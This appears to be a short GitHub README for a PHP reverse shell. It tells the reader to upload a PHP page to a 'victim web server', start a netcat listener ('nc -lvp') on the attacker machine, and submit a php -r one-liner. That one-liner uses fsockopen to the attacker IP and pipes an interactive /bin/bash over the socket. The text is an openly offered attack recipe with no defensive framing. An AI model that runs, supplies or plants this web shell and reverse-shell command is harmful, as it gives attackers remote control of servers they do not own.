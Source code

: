 # phpReverseshell
Note: 1. This is PHP based reverse shell 
      2. shell_exec() should be enables at server side (Victim web server)
Upload the 9090909090101010101010.php into webserver.
At attacker side run "nc -lvp $ATTACKER_PORT" (ex: nc -lvp 1234).
Then access http://server_IP/location_of_9090909090101010101010.php.
and input php -r '$sock=fsockopen("$Attacker_IP",$ATTACKER_PORT);exec("/bin/bash -i <&3 >&3 2>&3");' and hit Run.
Reverse shell will be created at attacker side.

